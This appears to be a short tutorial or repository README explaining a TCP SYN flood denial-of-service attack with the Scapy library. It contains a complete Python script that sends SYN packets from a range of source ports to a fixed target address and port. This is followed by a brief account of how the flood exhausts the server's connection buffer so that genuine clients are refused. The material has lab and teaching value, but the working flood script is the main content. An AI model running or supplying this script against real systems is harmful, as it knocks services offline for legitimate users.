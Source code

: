 ![SYN-ACK](SYNACK.jpg "SYN-ACK")

In order to perform SYN flood attack using scapy, the first step is make a SYN packet and send to the server. 
```sh
#! /usr/bin/python

from scapy.all import *
def synFlood(src,tgt):
    
    for sport in range(1024,65535):
        L3 = IP(src=src, dst = tgt)
        L4 = TCP(sport = sport, dport =1337)
        L5 = "This is hackicng test"
        packet = L3/L4/L5
        send(packet)

src="10.0.2.15"
tgt="172.30.139.223"
synFlood(src, tgt)
```
If we build a sever and a client, send  SYN packets to destination port. For few packets the server will reserve space in the buffer and reply with a SYN+ACK, waiting for ACK from client which will never be sent. 

Once the server TCP buffer gets exhausted, it will send RA (Reset + ACK) packets. This packet means that the SYN is received and acknowledged by the server but a connection to the server is refused.

When the server is exhausted and resetting all the connections, at this time even if a genuine client tries to access the services of the server application, then its request for connection will also be refused.
